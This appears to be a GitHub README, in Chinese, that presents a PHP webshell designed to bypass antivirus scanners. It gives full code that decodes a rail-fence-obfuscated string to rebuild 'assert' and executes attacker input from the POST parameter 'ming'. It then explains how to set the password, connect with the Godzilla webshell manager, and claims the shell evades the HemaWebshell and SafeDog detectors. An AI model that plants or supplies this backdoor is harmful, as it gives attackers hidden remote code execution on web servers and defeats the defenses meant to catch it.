






# Bypass php webshell
## 0x01 Ways

栅栏加密，类方法，采用拼接assert函数名的方式达到绕过

php版本有限制,在phpstudy环境下尝试只有php版本低于或者等于7.0.9才能使用

以下是php代码逻辑

```php
<?php
class ming{
    function decode_ming($ling) {          
        $str='e15s544mgl633610ita71478rn';
        $n=3;
        $length = strlen($str);
        $table = array();
        $quotient = (int)($length / $n);
        $remainder = $length % $n;
        for ($i = 0; $i < $n; $i++) {
            $table[$i] = array();
        }
        $index = 0;
        for ($i = 0; $i < $n; $i++) {
            $rowCount = $quotient + ($i < $remainder ? 1 : 0);
            for ($j = 0; $j < $rowCount; $j++) {
                $table[$i][$j] = $str[$index++];
            }
        }
        $decodedStr = '';
        for ($i = 0; $i < $quotient + 1; $i++) {
            for ($j = 0; $j < $n; $j++) {
                if (isset($table[$j][$i])) {
                    $decodedStr .= $table[$j][$i];
                }
            }
        }       //栅栏加密的解密程序，用来将字符串$str以及栅栏变量$n进行解密得出$decodedStr
        $config=$decodedStr['2'].$decodedStr['9'].$decodedStr['9'].$decodedStr['0'].$decodedStr['20'].$decodedStr['25'];
                //用于重组assert，来使用assert函数
        return $config($ling);
    }
}
$ming=new ming();//创建一个类
function myHiddenPost($key) {
    return isset($_POST[$key]) ? $_POST[$key] : null;
}               
$mingValue = myHiddenPost('ming');
                 //使用myHiddenPost函数来定义$mingValue=$_POST['ming']
$ming->decode_ming($mingValue);
                 //使用decode_ming函数来构造//assert($_POST['ming']);
?>
```

### 食用方式
通过generate.php获取$config字段以及栅栏加密混淆的payload



替换$str字符串以及$config字符串




$mingValue = myHiddenPost('ming')设置了连接密码为ming，如果有需要请更改它



配置好即可用Godzilla连接


## 0x02 Results

bypass 河马webshell查杀 以及  安全狗(两种查杀工具杀不到混淆木马)



